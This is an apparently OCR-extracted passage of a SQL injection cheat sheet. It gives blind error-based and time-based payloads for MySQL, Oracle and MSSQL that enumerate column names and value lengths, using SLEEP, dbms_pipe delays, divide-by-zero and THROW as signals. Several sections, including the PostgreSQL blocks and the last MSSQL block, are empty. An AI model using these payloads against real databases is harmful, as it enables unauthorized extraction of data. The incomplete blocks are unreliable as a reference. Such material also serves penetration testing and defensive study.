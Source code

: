 ### PostgreSQL (error based)

```sql

```

### PostgreSQL (time based)

```sql

```

### MySQL (error based)

```sql
SELECT IF((SELECT SUBSTRING((SELECT COLUMN_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS, (SELECT @row_number:=0) AS RN WHERE TABLE_NAME = 'CHARACTER_SETS') AS RESULT WHERE RN = 1),1,1))='C', (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES), 'A')
```

### MySQL (time based

```sql
SELECT IF((SELECT SUBSTRING((SELECT COLUMN_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS, (SELECT @row_number:=0) AS RN WHERE TABLE_NAME = 'CHARACTER_SETS') AS RESULT WHERE RN = 1),1,1))='C', (SELECT SLEEP(10)), 'A')
```

## Enumerate length of column values

### Oracle (error based)

```sql
SELECT CASE WHEN (SELECT LENGTH(NAME) length FROM (SELECT rownum rn, name from SYSTEM_PRIVILEGE_MAP) WHERE RN = 1)<1 THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL
```

### Oracle (time based)

```sql
SELECT CASE WHEN (SELECT LENGTH(NAME) length FROM (SELECT rownum rn, name from SYSTEM_PRIVILEGE_MAP) WHERE RN = 1)<1 THEN dbms_pipe.receive_message(('a'), 10) ELSE NULL END FROM DUAL
```

### MSSQL (error based)

```sql
IF ((SELECT LEN(productName) AS Length FROM (SELECT productName FROM (SELECT ROW_NUMBER() OVER (ORDER BY productName) AS RN, productName FROM ForgeRock) AS THING WHERE RN=1) AS THING))=6 BEGIN THROW 500001, 'ERROR', 1; END
```

### MSSQL (time based)
